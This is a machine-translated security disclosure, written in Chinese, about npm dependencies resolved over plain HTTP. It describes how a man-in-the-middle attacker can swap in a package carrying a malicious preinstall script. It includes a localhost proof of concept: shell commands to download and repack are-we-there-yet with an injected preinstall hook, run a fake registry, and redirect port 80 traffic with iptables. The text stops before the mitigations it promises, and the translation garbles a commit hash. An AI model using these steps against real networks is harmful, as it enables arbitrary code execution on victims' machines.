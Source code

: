 npmregistry 中的实际 npm 包不包含包膜——所以如果您通过`npm`(即`npm i npm`)安装 npm，就没问题。但是，另一方面，如果你克隆 github repo 并运行`npm install`，你就不是了。更广泛地说，如果您 npm 安装任何具有 HTTP 解析 URL 的包，网络攻击者就可以在您的机器上执行任意代码。

具体来说，当通过 HTTP 获取包(例如`are-we-there-yet`)时，能够实施中间人(MITM)攻击的攻击者可以简单地用他们自己选择的包进行回复，例如，该包可能包含 npm 乐于运行的恶意`preinstall`脚本。

只要攻击者能够访问与您相同的本地网络(例如，您在同一家咖啡店或者他们是您的 ISP)，他们通常就可以改变您的 HTTP 流量。FireSheep 是一个很好的例子，它让人们很容易通过劫持会话来扰乱他人的浏览体验。这有点糟糕，因为它允许攻击者在您的机器上运行代码。下面是一个演示这一点的概念验证攻击。

我们已经通知了一些在 npm 和 github 上有这种 HTTP URLs 的包的组织和用户。我们克隆了 npm 注册表和各种 github 项目来找到这些信息。不幸的是，这意味着可能有我们没有发现的包裹，并可能使您处于危险之中。我们在下面描述一些缓解技术。

# 概念证明攻击

下面是一个使用 npm github repo 的 PoC 攻击，严格运行在 localhost 上。我们描述了受害者和攻击者的步骤。

1.  受害者克隆体`npm`:

```
[https://github.com/npm/npm.git](https://github.com/npm/npm.git)
```

在编写本文时，磁头指向`latest`分支([4d 0473 c 12 E1 f 1448 F3 ca 28 f 157 c 9023 e 2682 df 9d](https://github.com/npm/npm/tree/4d0473c12e1f1448f3ca28f157c9023e2682df9d))。

`[npm-shrinkwrap.json](https://github.com/npm/npm/blob/4d0473c12e1f1448f3ca28f157c9023e2682df9d/npm-shrinkwrap.json#L1468)`文件有一个模块，可以通过 HTTP:

```
"resolved": "http://registry.npmjs.org/are-we-there-yet/-/are-we-there-yet-1.1.2.tgz",
```

这是我们将从我们的 MITM“注册表”中修改和提供的包。

2.攻击者打开一个新的 shell 并设置类似 MITM 注册表的服务器:

```
mkdir mitm
cd mitm
mkdir -p public/are-we-there-yet/-
pushd public/are-we-there-yet/-
wget https://registry.npmjs.org/are-we-there-yet/-/are-we-there-yet-1.1.2.tgz
tar xzvf are-we-there-yet-1.1.2.tgz
# modify package/package.json to add new preisnstall script. For example:
# "preinstall": "echo w00t > /tmp/whodis",
tar czvf are-we-there-yet-1.1.2.tgz package
popd
npm i static-server ./node_modules/.bin/static-server -p8080 public
```

3.攻击者将目的地为`registry.npmjs.org:80`的数据包转发到我们在端口 8080 上运行的 MITM 本地服务器。出于本例的目的，我们使用 iptables 将端口 80 的任何流量转发到 localhost:8080:

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```
